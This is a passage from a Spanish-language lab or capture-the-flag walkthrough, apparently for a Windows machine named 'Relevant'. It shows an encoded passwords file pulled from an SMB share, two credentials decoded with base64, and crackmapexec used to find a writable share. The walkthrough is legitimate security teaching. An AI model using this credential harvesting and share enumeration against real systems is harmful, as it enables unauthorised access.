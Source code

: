 Si nos descargamos el archivo `passwords.txt` esto es lo que encontramos credenciales

```bash
smb: \> get passwords.txt 
getting file \passwords.txt of size 98 as passwords.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> 
❯ catn passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Tenemos credenciales

```bash
❯ echo -n "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d; echo
Bill - Juw4nnaM4n420696969!$$$
❯ echo -n "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d; echo
Bob - !P@$$W0rD!123
```

Vamos a usar al usuario `Bill` y tenemos privilegios de escritura en el recurso asi que podemos subir archivos

```bash
❯ crackmapexec smb 10.10.26.76 -u Bill -p Juw4nnaM4n420696969 --shares
SMB         10.10.26.76     445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.26.76     445    RELEVANT         [+] Relevant\Bill:Juw4nnaM4n420696969 
SMB         10.10.26.76     445    RELEVANT         [+] Enumerated shares
SMB         10.10.26.76     445    RELEVANT         Share           Permissions     Remark
SMB         10.10.26.76     445    RELEVANT         -----           -----------     ------
SMB         10.10.26.76     445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.10.26.76     445    RELEVANT         C$                              Default share
SMB         10.10.26.76     445    RELEVANT         IPC$                            Remote IPC
SMB         10.10.26.76     445    RELEVANT         nt4wrksv        READ,WRITE      
```

Esta es la pagina `web`
